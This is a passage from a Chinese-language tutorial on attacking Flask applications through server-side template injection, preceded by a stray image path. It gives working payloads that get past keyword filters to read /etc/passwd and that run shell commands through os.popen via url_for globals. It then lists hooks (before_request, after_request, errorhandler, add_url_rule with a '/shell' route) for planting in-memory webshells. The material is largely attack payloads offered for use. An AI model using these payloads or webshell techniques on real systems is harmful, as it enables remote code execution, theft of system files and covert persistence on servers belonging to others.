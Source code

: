 3. **字符串拼接绕过关键字过滤**
```
http://127.0.0.1:5000/test?name={{().__class__.__bases__[0].__subclasses__()[40]('/et'+'c/pa'+'sswd').read()}}
```

4. **使用`url_for`、`get_flashed_messages`等Flask特有对象**
```
http://127.0.0.1:5000/test?name={{url_for.__globals__['__builtins__']['eval']("__import__('os').popen('id').read()")}}
```

### 常见错误和解决方法

1. **路径错误**: 如果命令执行失败，可能是路径问题，尝试使用绝对路径
2. **权限问题**: 检查Web应用运行用户的权限
3. **转义问题**: 确保特殊字符被正确URL编码
4. **引号问题**: 在嵌套引号时使用不同类型的引号（单引号、双引号）

## 内存马实现方法

Flask框架中可以通过多种方式实现内存马：

### 1. before_request钩子

在每个请求处理前执行的函数，可用于内存马植入：

```python
app.before_request_funcs.setdefault(None, []).append(lambda: ...)
```

### 2. after_request钩子

在每个请求处理后执行的函数：

```python
app.after_request_funcs.setdefault(None, []).append(lambda resp: ...)
```

### 3. errorhandler处理器

当特定错误发生时执行的函数，如404错误：

```python
app.error_handler_spec[None][code][exc_class] = lambda a: ...
```

### 4. add_url_rule添加路由

直接添加新的路由（在新版Flask中可能受限）：

```python
app.add_url_rule('/shell', 'shell', lambda: ...)
```

## 自动测试脚本使用
